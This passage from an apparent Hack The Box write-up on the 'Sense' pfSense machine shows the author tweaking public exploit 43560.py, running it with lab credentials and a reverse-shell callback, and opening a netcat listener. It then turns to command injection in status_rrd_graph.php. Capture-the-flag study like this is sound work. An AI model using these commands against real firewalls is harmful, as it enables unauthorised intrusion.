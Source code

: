 Since the pfsense is running on https, I need to add `verify=False` option to request.

```python
# POST login request with data, cookies and header
   login_request = client.post(login_url, data=encoded_data, 
   cookies=client.cookies, headers=headers, verify=False)
else:
   print("No CSRF token!")
   exit()
```


```bash
┌──(kali㉿kali)-[~/htb]
└─$ python 43560.py --rhost 10.10.10.60 --lhost 10.10.14.6 --lport 9000 --username rohit --password pfsense
CSRF token obtained
Running exploit...
Exploit completed
```

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
```

However, the exploitation didn't work..

##### Manual exploitation

Instead, I found an article explaining command injection vulnerabilities : https://www.proteansec.com/linux/pfsense-vulnerabilities-part-2-command-injection/

Among the 3 listed vulnerable php files, I focused on `status_rrd_graph.php` which is originally used in the previous exploit.

I can access to this function from the menu (status -> RRD Graphs).

![](attachments/sense_7.png)